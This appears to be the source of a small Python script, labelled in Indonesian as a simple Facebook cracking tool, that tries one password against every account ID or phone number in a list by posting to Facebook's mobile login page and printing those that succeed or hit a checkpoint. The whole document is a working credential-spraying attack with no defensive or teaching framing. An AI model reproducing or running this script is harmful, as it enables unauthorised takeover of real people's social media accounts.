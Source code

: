 import requests
import sys
import argparse
import os

parser = argparse.ArgumentParser(description="tools sederhana crack facebook")
parser.add_argument("-l", "--list",type=str, help="ID listor phone")
parser.add_argument("-p", "--password", type=str, help="Password to crack")
args = parser.parse_args()

jumlah = 0

def main():
	global jumlah
	id = args.list
	pwd = args.password
	url = "https://m.facebook.com/login.php"
	list = open(id, "r").readlines()
	for email in list:
		email.split()
		data = {"email":email, "pass":pwd}
		r = requests.post(url, data=data).url
		jumlah += 1
		if "m_sess" in r or "save-device" in r:
			print("[+] found : %s ~ %s"%(email,pwd))
			
		if "checkpoint" in r:
			print("[*] checkpoint %s ~ %s"%(email,pwd))
			
		print("\r[~] crack akun %s|%s"%(jumlah,len(list))),;sys.stdout.flush()
	
if args.list == None or args.password == None:
	os.system("python2 mbf.py -h")
else:
    main()
